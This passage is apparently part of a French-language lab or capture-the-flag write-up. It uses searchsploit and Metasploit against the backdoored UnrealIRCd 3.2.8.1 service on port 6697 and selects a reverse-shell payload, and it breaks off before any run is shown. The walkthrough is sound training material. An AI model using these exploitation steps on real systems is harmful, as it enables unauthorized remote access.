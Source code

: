 ### Port 6697

Avec `searchsploit` on peut constater qu’il existe une vulnérabilité sur la version 3.2.8.1 de _UnrealIRCd_ et qu’il existe un module Metasploit correspondant (le fichier `16922.rb`): 
```zsh
┌──(kali㉿kali)-[~]
└─$ searchsploit unreal
---------------------------------------------------------------------- ---------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------
(...)
Unreal Tournament 3 1.3 - Directory Traversal                         | windows/remote/6506.txt
Unreal Tournament 3 2.1 - 'STEAMBLOB' Remote Denial of Service        | windows/dos/14414.txt
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)          | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow               | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                        | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                             | windows/dos/27407.pl
---------------------------------------------------------------------- ------------------------------
```
{{% notice warning "Remarque" %}}
La commande `searchsploit` permet d'interroger à partir de la ligne de commande la base de données du site [Exploit-DB](https://www.exploit-db.com/). Les fichiers dans la colonne **Path** se trouvent dans `/usr/share/exploitdb/exploits` sur Kali.
{{% /notice %}}

On lance donc `msfconsole`; ensuite on cherche le module et on le charge :
```zsh
msf6 > search unreal

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal 
   1  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal 
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 

msf6 > use 2
```

On fait ensuite `show payloads` et on choisit un des _shells_ inversés proposés, `payload/cmd/unix/reverse` :
```zsh
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command ,     
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command    
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command    
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command    
   4   payload/cmd/unix/generic                                     normal  No     Unix Command,    
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command    
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command    
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command 

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 5 
```
